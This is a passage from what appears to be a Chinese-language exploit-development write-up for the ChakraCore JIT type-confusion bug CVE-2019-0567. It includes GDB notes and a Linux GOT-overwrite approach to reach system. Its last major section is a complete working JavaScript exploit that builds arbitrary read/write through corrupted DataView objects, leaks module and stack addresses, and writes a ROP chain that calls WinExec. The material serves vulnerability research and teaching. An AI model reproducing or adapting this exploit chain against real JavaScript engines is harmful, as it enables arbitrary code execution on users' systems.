0x00007f3a26984540  0x00007f3a280f4dd0  Yes         /home/sxy/ChakraCore/cmake-build-debug/libChakraCore.so
```

此处 `From` 显示的并不一定是 ELF 映像真正的起始映射地址，它常常只是 GDB 认定的“可执行代码或符号范围起点”。因此在做模块基址推导时，不能机械地把此处的 `From` 当作 image base，应以：

- 泄露出来的 vtable / 函数地址；
- ELF / PE 文件中已知符号 RVA；
- `info proc mappings`、`readelf`、`objdump` 等信息；

进行交叉验证，而不应直接把 From 当作 image base。

### 通过 `print` 参数获取 Proxy 对象地址

调试 `WScript.Echo("HIT", p)` 此类代码时，可在 `EchoCallback` 断住后直接从参数数组中取 JS 对象：

```bash
# arguments 是 WScript.Echo 的参数数组，arguments[1] 是第二个参数（即 p）
(gdb) set $argv = (void**)arguments
(gdb) p/x $argv[1]

# 转成 JavascriptProxy 指针
(gdb) set $p = (Js::JavascriptProxy*)$argv[1]

# 可选：查看类型
(gdb) p $p->GetTypeId()
```

然后通过成员偏移读取内部字段：

```bash
(gdb) p/x (size_t)&((Js::JavascriptProxy*)0)->target
(gdb) p/x (size_t)&((Js::JavascriptProxy*)0)->handler
(gdb) p/x (size_t)&((Js::JavascriptProxy*)0)->revoked
(gdb) p/d sizeof(Js::JavascriptProxy)
```

对应的调试截图如下：



---

## Linux 下基于 GOT / libc 的后续利用思路

除 Windows ROP 方案外，此处补充 Linux 下围绕 GOT / libc 的一条典型调试思路，用于说明任意地址读写获取后，进一步联动动态链接结构。

### 观察 libc / ChakraCore 的映射

```bash
info proc mappings
```

可用于观察进程中 `libc`、`libChakraCore.so` 等模块的加载基址范围。

### 用 `readelf` 查找 `memmove` 的 GOT 槽偏移

```bash
readelf -rW /home/sxy/ChakraCore/cmake-build-debug/libChakraCore.so | grep -E 'JUMP_SLOT|GLOB_DAT' | grep memmove
```

示例输出：

```bash
00000000021c30a8  0000001400000007 R_X86_64_JUMP_SLOT     0000000000000000 memmove@GLIBC_2.2.5 + 0
```

第一列 `Offset` 是 GOT 槽相对模块基址的偏移。

### 在 GDB 中确认符号运行时地址

```bash
(gdb) info address system
(gdb) info address memmove
```

这样可得到：

- `system` 的运行时地址；
- `memmove` 的运行时地址；
- 二者在当前 libc 中的真实偏移关系。

### 由 GOT 槽地址推出真实函数地址

若已知：

- `libChakraCore.so` 基址；
- `memmove` GOT 槽偏移；

可先计算 GOT 位置，再读出当前 GOT 中保存的真实函数地址。

样例代码：

```javascript
const memmove_got_off = 0x021c30a8;
const system_addr2memmove_addr_offset = 0x01c8f378;
const [memmove_gotlo, memmove_gothi] = add64(chakraLo, chakraHi, memmove_got_off, offHi);
const [system_addrlo, system_addrhi] = add64(memmove_gotlo, memmove_gothi, system_addr2memmove_addr_offset, offHi);
```

其本质是：

1. 定位 GOT 槽；
2. 根据实验确认的相对偏移推导出 `system` 地址；
3. 最终可在研究中验证“任意地址写是否足以重定向关键 GOT 项”。

---

## 完整复现源码

> 下面保留原始复现实验代码，便于后续单独取用或在调试器中直接运行。

```javascript
// Creating object obj
// Properties are stored via auxSlots since properties weren't declared inline
obj = {}
obj.a = 1;
obj.b = 2;
obj.c = 3;
obj.d = 4;
obj.e = 5;
obj.f = 6;
obj.g = 7;
obj.h = 8;
obj.i = 9;
obj.j = 10;

// Create two DataView objects
dataview1 = new DataView(new ArrayBuffer(0x100));
dataview2 = new DataView(new ArrayBuffer(0x100));

// Function to convert to hex for memory addresses
function hex(x) {
    return x.toString(16).padStart(8, "0");
}

// Arbitrary read function
function read64(lo, hi) {
    dataview1.setUint32(0x38, lo, true);        // DataView+0x38 = dataview2->buffer
    dataview1.setUint32(0x3C, hi, true);        // We set this to the memory address we want to read from (4 bytes at a time: e.g. 0x38 and 0x3C)

    // Instead of returning a 64-bit value here, we will create a 32-bit typed array and return the entire away
    // Write primitive requires breaking the 64-bit address up into 2 32-bit values so this allows us an easy way to do this
    var arrayRead = new Uint32Array(0x10);
    arrayRead[0] = dataview2.getInt32(0x0, true);   // 4-byte arbitrary read
    arrayRead[1] = dataview2.getInt32(0x4, true);   // 4-byte arbitrary read

    // Return the array
    return arrayRead;
}

// Arbitrary write function
function write64(lo, hi, valLo, valHi) {
    dataview1.setUint32(0x38, lo, true);        // DataView+0x38 = dataview2->buffer
    dataview1.setUint32(0x3C, hi, true);        // We set this to the memory address we want to write to (4 bytes at a time: e.g. 0x38 and 0x3C)

    // Perform the write with our 64-bit value (broken into two 4 bytes values, because of JavaScript)
    dataview2.setUint32(0x0, valLo, true);      // 4-byte arbitrary write
    dataview2.setUint32(0x4, valHi, true);      // 4-byte arbitrary write
}

// Function used to set prototype on tmp function to cause type transition on o object
function opt(o, proto, value) {
    o.b = 1;
    let tmp = {__proto__: proto};
    o.a = value;
}

// main function
function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
    vtableHigh = dataview1.getUint32(0x4, true);

    // Extract dataview2->type (located 0x8 - 0x10) so we can follow the chain of pointers to leak a stack address via...
    // ... type->javascriptLibrary->scriptContext->threadContext
    typeLo = dataview1.getUint32(0x8, true);
    typeHigh = dataview1.getUint32(0xC, true);

    // Print update
    print("[+] DataView object 2 leaked vtable from ChakraCore.dll: 0x" + hex(vtableHigh) + hex(vtableLo));
    print("[+] dataview1->type: 0x" + hex(typeHigh) + hex(typeLo));

    // Store the base of chakracore.dll
    chakraLo = vtableLo - 0x19ae9c0;
    chakraHigh = vtableHigh;

    // Print update
    print("[+] ChakraCore.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));

    // Leak a pointer to kernel32.dll from from ChakraCore's IAT (for who's base address we already have)
    iatEntry = read64(chakraLo+0x17AE000+0x40, chakraHigh);     // KERNEL32!RaiseExceptionStub pointer

    // Store the upper part of kernel32.dll
    kernel32High = iatEntry[1];

    // Store the lower part of kernel32.dll
    kernel32Lo = iatEntry[0] - 0x1be40;

    // Print update
    print("[+] kernel32.dll base address: 0x" + hex(kernel32High) + hex(kernel32Lo));

    // Leak type->javascriptLibrary (located at type+0x8)
    javascriptLibrary = read64(typeLo+0x8, typeHigh);

    // Leak type->javascriptLibrary->scriptContext (located at javascriptLibrary+0x450)
    scriptContext = read64(javascriptLibrary[0]+0x450, javascriptLibrary[1]);

    // Leak type->javascripLibrary->scriptContext->threadContext
    threadContext = read64(scriptContext[0]+0x3b8, scriptContext[1]);

    // Leak type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread (located at threadContext+0xc8)
    stackAddress = read64(threadContext[0]+0xc8, threadContext[1]);

    // Print update
    print("[+] Leaked stack from type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread!");
    print("[+] Stack leak: 0x" + hex(stackAddress[1]) + hex(stackAddress[0]));

    // Compute the stack limit for the current thread and store it in an array
    var stackLeak = new Uint32Array(0x10);
    stackLeak[0] = stackAddress[0] + 0xec000;
    stackLeak[1] = stackAddress[1];

    // Print update
    print("[+] Stack limit: 0x" + hex(stackLeak[1]) + hex(stackLeak[0]));

    // Scan the stack

    // Counter variable
    let counter = 0;

    // Store our target return address
    var retAddr = new Uint32Array(0x10);
    retAddr[0] = chakraLo + 0x1753c30;
    retAddr[1] = chakraHigh;

    // Loop until we find our target address
    while (true)
    {

        // Store the contents of the stack
        tempContents = read64(stackLeak[0]+counter, stackLeak[1]);

        // Did we find our target return address?
        if ((tempContents[0] == retAddr[0]) && (tempContents[1] == retAddr[1]))
        {
            // print update
            print("[+] Found the target return address on the stack!");

            // stackLeak+counter will now contain the stack address which contains the target return address
            // We want to use our arbitrary write primitive to overwrite this stack address with our own value
            print("[+] Target return address: 0x" + hex(stackLeak[1]) + hex(stackLeak[0]+counter));

            // Break out of the loop
            break;
        }

        // Increment the counter if we didn't find our target return address
        counter += 0x8;
    }

    print("[+] Before ROP Chain:");
    //write64(stackLeak[0]+counter, stackLeak[1], 0xdeadbeef, 0xdeadbeef);

    // Begin ROP chain
    write64(stackLeak[0]+counter, stackLeak[1], chakraLo+0x291dcc, chakraHigh);      // pop rax ; ret
    counter += 0x8;
    write64(stackLeak[0]+counter, stackLeak[1], 0x636c6163, 0x00000000);              // calc
    counter += 0x8;
    write64(stackLeak[0]+counter, stackLeak[1], chakraLo+0x2f86bc, chakraHigh);      // pop rcx ; ret
    counter += 0x8;
    write64(stackLeak[0]+counter, stackLeak[1], chakraLo+0x1c75000, chakraHigh);     // Empty address in .data of chakracore.dll
    counter += 0x8;
    write64(stackLeak[0]+counter, stackLeak[1], chakraLo+0xd7d57, chakraHigh);       // mov qword [rcx], rax ; ret
    counter += 0x8;
    write64(stackLeak[0]+counter, stackLeak[1], chakraLo+0xe55ac0, chakraHigh);      // pop rdx ; ret
    counter += 0x8;
    write64(stackLeak[0]+counter, stackLeak[1], 0x00000000, 0x00000000);              // 0
    counter += 0x8;
    write64(stackLeak[0]+counter, stackLeak[1], chakraLo+0x291dcc, chakraHigh);      // pop rax ; ret
    counter += 0x8;
    write64(stackLeak[0]+counter, stackLeak[1], kernel32Lo+0x64d70, kernel32High);   // KERNEL32!WinExec address
    counter += 0x8;
    write64(stackLeak[0]+counter, stackLeak[1], chakraLo+0x7bf4e, chakraHigh);       // jmp rax
    counter += 0x8;
}

main();
```

---

## 参考资料

1. [Connor McGarr, Type Confusion Part 1](https://connormcgarr.github.io/type-confusion-part-1/)
2. [Connor McGarr, Type Confusion Part 2](https://connormcgarr.github.io/type-confusion-part-2/)
3. [Project Zero Issue 1702: CVE-2019-0567](https://bugs.chromium.org/p/project-zero/issues/detail?id=1702)
4. [ChakraCore DynamicObject.h](https://github.com/chakra-core/ChakraCore/blob/master/lib/Runtime/Types/DynamicObject.h#L81-L93)
